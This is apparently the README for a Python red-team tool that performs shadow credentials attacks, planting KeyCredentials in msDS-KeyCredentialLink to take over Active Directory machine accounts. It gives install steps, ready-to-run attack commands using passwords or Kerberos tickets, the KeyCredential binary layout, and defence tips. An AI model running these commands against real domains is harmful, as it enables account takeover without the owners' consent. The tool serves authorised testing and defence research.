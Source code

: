 # Shadow Credentials Attack Tool

A Python implementation for performing shadow credentials attacks against Active Directory machine accounts.

## Features

- ✅ Implements Microsoft's exact binary structure for KeyCredentials
- ✅ Supports both NTLM and Kerberos authentication
- ✅ Generates compliant certificates with Smart Card Logon EKU
- ✅ Preserves existing credentials when adding new ones
- ✅ Enforces LDAPS with certificate validation
- ✅ Secure memory cleanup of sensitive data

## Installation

```bash
git clone https://github.com/404tb/shadowcreds
cd shadowcreds
pip install -r requirements.txt
```

## Usage

### Basic Authentication
```bash
python3 shadowcreds.py -d dc01.corp.local -u username -p password -t TARGET$
```

### Kerberos Authentication
```bash
export KRB5CCNAME=/path/to/ticket.ccache
python3 shadowcreds.py -d dc01.corp.local -k -t TARGET$
```

### Remove Credentials
```bash
python3 shadowcreds.py -d dc01.corp.local -k -t TARGET$ --remove
```

## Command Line Arguments

| Argument          | Description                                      |
|-------------------|--------------------------------------------------|
| `-d`, `--domain`   | Domain controller hostname (required)            |
| `-u`, `--username` | Username for NTLM authentication                 |
| `-p`, `--password` | Password for NTLM authentication                 |
| `-k`, `--kerberos` | Use Kerberos authentication from ccache          |
| `-t`, `--target`   | Target machine name (with $ suffix)              |
| `-o`, `--output`   | Base filename for key material output            |
| `-r`, `--remove`   | Remove shadow credentials                        |
| `-v`, `--verbose`  | Enable verbose output                            |

## Technical Implementation

The tool implements the exact binary structure that Active Directory expects for KeyCredentials:

```text
Version        : 4 bytes
Flags          : 4 bytes
KeyId          : 16 bytes (GUID)
CreationTime   : 8 bytes (FILETIME)
KeyUsage       : 4 bytes
KeyProvider    : 4 bytes
DeviceId       : 16 bytes (GUID)
KeyMaterialLen : 4 bytes
KeyMaterial    : Variable (DER certificate)
CustomDataLen  : 4 bytes
CustomData     : Variable
```

## Defense Considerations

- 🔍 Monitor for unexpected modifications to `msDS-KeyCredentialLink`
- 🔒 Restrict write permissions on machine accounts
- ⚠️ Enable "PKINIT Freshness" protection (Windows Server 2019+)
- 📊 Review certificate authentication events

## References

- [Microsoft KeyCredential Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a90263c5-75c6-4d90-8f51-d3e8f6b69861)
- [Shadow Credentials Attack Explained](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Whisker - A tool for manipulating msDS-KeyCredentialLink](https://github.com/eladshamir/Whisker)

## Legal Disclaimer

This tool is provided for **authorized security testing** and **educational purposes** only. Unauthorized use against systems without explicit permission is illegal.
